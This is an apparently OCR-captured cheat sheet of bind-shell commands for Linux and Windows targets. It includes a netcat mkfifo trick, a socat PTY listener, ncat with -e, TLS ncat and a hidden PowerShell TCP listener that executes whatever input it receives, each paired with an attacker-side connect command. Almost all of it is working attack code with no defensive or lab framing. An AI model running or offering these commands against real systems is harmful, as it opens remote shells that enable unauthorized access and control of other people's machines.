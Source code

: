 Linux target (nc without -e support – mkfifo workaround):
- Target (listener) – OpenBSD nc style:
```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc -l -p 4444 > /tmp/f
```
- Attacker (connect):
```
nc -nv TARGET_IP 4444
```

Linux target (socat with PTY for better interaction):
- Target (listener):
```
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```
- Attacker (connect):
```
socat -,rawer,echo=0 TCP:TARGET_IP:4444
# or
nc -nv TARGET_IP 4444
```

Windows target using Ncat (from Nmap):
- Target (listener):
```
ncat.exe -lvnp 4444 -e cmd.exe
```
- Attacker (connect):
```
ncat -nv TARGET_IP 4444
# or
nc -nv TARGET_IP 4444
```

Windows target using PowerShell-only bind (no external binaries):
- Target (listener; run in PowerShell):
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$l=New-Object System.Net.Sockets.TcpListener([Net.IPAddress]::Any,4444);$l.Start();$c=$l.AcceptTcpClient();$s=$c.GetStream();$b=New-Object Byte[] 65535;while(($r=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$r);$o=try{(iex $d 2>&1 | Out-String)}catch{$_|Out-String};$o+='PS '+(pwd).Path+'> ';$ob=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($ob,0,$ob.Length)};$c.Close();$l.Stop()"
```
- Attacker (connect):
```
nc -nv TARGET_IP 4444
```

Optional: Ncat with TLS (both sides must use Ncat and agree on SSL)
- Target (listener with SSL):
```
ncat --ssl -lvnp 4444 --exec /bin/bash
```
- Attacker (connect with SSL):
```
ncat --ssl -nv TARGET_IP 4444
```
